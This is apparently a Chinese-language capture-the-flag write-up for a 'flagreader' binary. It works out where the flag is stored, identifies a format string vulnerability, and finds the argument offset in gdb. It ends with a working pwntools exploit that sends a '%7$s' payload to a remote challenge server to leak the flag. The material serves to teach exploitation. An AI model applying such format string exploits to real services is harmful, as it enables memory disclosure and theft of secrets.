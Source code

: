 1.首先看伪代码，发现是把flag读取了0x50字节，写在了`&_bss_start[6]._IO_read_end`上。但是这个，到底是哪个地址呢？
2.观察汇编的代码，可以看到rsi也就读入的地址是rcx，而rcx 又是 rax+0x520，rax又是__bss_start.所以可以知道rsi=__bss_start+0x520.
3.而我们的gift就是__bss_start.
#### vuln函数分析
![image-20250524204837954](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524204837954.png)
1.非常明显的格式化字符串漏洞，结合上文。第一个想到把flag的地址写入，同时用"%s"对flag内容进行打印。
2.64位要加上6，因为有前6个寄存器。最后的偏移还是需要gdb查看。因为可以输入0x10，所以可以把__bss_start+0x520布置在下面。

### gdb分析

![image-20250524205449833](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524205449833.png)
1.找到printf函数的栈帧，可以看到我们的输入是在偏移为0 的位置，加上6就是6.
2.把地址写在下面的话，偏移就是7。

### exp
```python
from pwn import *
context.log_level='debug'
mode=1
url='43.139.51.42'
port=38430
if mode==0 :
	io=process("./flagreader")
else:
	io=remote(url,port)
#gdb.attach(io)
io.recvuntil("Here is your gift: ")
bss_start=int(io.recv(14),16)
log.success("bss-{}".format(hex(bss_start)))
flag=bss_start+1312
payload=b'%7$s'.ljust(8,b'\x41')
payload+=p64(flag)

io.send(payload)

io.interactive()
```